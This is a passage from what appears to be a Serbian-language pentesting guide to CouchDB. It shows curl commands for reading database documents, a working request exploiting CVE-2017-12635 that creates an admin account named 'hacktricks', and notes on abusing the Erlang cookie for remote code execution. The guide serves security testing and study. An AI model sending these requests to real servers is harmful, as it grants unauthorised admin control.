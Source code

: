 ### **Čitanje dokumenta**

Pročitajte sadržaj dokumenta unutar baze podataka:

```bash
curl -X GET http://IP:5984/{dbname}/{id}
curl http://localhost:5984/simpsons/f0042ac3dc4951b51f056467a1000dd9
#Example response:
{"_id":"f0042ac3dc4951b51f056467a1000dd9","_rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329","character":"Homer","quote":"Doh!"}
```

## CouchDB Eskalacija privilegija [CVE-2017-12635](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-12635)

Zahvaljujući razlikama između Erlang i JavaScript JSON parsera, moguće je **kreirati admin korisnika** sa pristupnim podacima `hacktricks:hacktricks` pomoću sledećeg zahteva:

```bash
curl -X PUT -d '{"type":"user","name":"hacktricks","roles":["_admin"],"roles":[],"password":"hacktricks"}' localhost:5984/_users/org.couchdb.user:hacktricks -H "Content-Type:application/json"
```

[**Više informacija o ovoj ranjivosti ovde**](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html).

## CouchDB RCE

### **Pregled sigurnosti Erlang kolačića**

Primer [odavde](https://0xdf.gitlab.io/2018/09/15/htb-canape.html).

U dokumentaciji za CouchDB, posebno u delu koji se odnosi na podešavanje klastera ([link](http://docs.couchdb.org/en/stable/cluster/setup.html#cluster-setup)), razmatra se upotreba portova od strane CouchDB u režimu klastera. Pomenuto je da se, kao i u samostalnom režimu, koristi port `5984`. Dodatno, port `5986` je namenjen lokalnim API-ima čvora, a važno je da Erlang zahteva TCP port `4369` za Erlang Port Mapper Daemon (EPMD), koji omogućava komunikaciju čvorova unutar Erlang klastera. Ova konfiguracija formira mrežu u kojoj su svi čvorovi međusobno povezani.

Naglašena je ključna sigurnosna preporuka u vezi sa portom `4369`. Ako je ovaj port dostupan preko interneta ili bilo koje nepouzdane mreže, sigurnost sistema u velikoj meri zavisi od jedinstvenog identifikatora poznatog kao "kolačić". Ovaj kolačić deluje kao zaštita. Na primer, u datom listi procesa može se primetiti kolačić nazvan "monster", što ukazuje na njegovu operativnu ulogu u okviru sigurnosnog okvira sistema.

```
www-data@canape:/$ ps aux | grep couchdb
root        744  0.0  0.0   4240   640 ?        Ss   Sep13   0:00 runsv couchdb
root        811  0.0  0.0   4384   800 ?        S    Sep13   0:00 svlogd -tt /var/log/couchdb
homer       815  0.4  3.4 649348 34524 ?        Sl   Sep13   5:33 /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/b
```

Za one koji su zainteresovani da razumeju kako se ovaj "kolačić" može iskoristiti za daljinsko izvršavanje koda (RCE) u kontekstu Erlang sistema, dostupan je poseban odeljak za dalje čitanje. Detaljno se opisuju metodologije za zloupotrebu Erlang kolačića na neovlašćene načine radi preuzimanja kontrole nad sistemima. Možete [**istražiti detaljan vodič o zloupotrebi Erlang kolačića za RCE ovde**](4369-pentesting-erlang-port-mapper-daemon-epmd.md#erlang-cookie-rce).
